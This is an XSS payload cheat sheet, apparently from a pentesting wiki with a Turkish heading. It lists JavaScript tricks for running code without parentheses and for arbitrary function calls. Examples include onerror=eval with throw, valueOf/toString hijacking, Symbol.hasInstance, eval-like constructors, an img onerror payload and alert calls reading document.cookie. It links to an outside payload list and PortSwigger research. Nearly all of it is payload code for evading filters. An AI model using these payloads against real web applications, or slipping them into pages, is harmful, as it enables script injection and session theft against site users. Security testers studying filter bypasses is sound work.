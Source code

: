 ````javascript
// valueOf, toString
// These operations are called when the object is used as a primitive
// Because the objet is passed as "this" and alert() needs "window" to be the value of "this", "window" methods are used
valueOf=alert;window+''
toString=alert;window+''


// Error handler
window.onerror=eval;throw"=alert\x281\x29";
onerror=eval;throw"=alert\x281\x29";
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
{onerror=eval}throw"=alert(1)" //No ";"
onerror=alert //No ";" using new line
throw 1337
// Error handler + Special unicode separators
eval("onerror=\u2028alert\u2029throw 1337");
// Error handler + Comma separator
// The comma separator goes through the list and returns only the last element
var a = (1,2,3,4,5,6) // a = 6
throw onerror=alert,1337 // this is throw 1337, after setting the onerror event to alert
throw onerror=alert,1,1,1,1,1,1337
// optional exception variables inside a catch clause.
try{throw onerror=alert}catch{throw 1}


// Has instance symbol
'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
// The “has instance” symbol allows you to customise the behaviour of the instanceof operator, if you set this symbol it will pass the left operand to the function defined by the symbol.
````
* [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**Keyfi fonksiyon (alert) çağrısı**
````javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie'])
with(document)alert(cookie)
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
````